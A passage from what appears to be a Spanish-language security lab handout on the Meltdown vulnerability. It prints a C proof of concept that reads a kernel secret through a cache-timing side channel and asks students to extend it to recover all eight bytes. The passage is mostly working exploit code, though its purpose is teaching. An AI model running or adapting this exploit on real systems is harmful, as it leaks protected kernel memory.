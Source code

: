 \begin{lstlisting}[caption=\texttt{MeltdownAttack.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }

  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
    }
	
    // Flush the probing array
    for (j = 0; j < 256; j++) 
        _mm_clflush(&array[j * 4096 + DELTA]);

    if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

    reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
    if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
\end{lstlisting}

Por favor compile y ejecute el código, explique sus observaciones.
El código anterior solamente obtiene 1 byte del dato secreto del kernel. El valor secreto actual que se ubica en el kernel tiene 8 bytes. Necesita modificar el código anteriormente mosotrado para obtener los 8 bytes del dato secreto.


\section{Informe del Laboratorio}


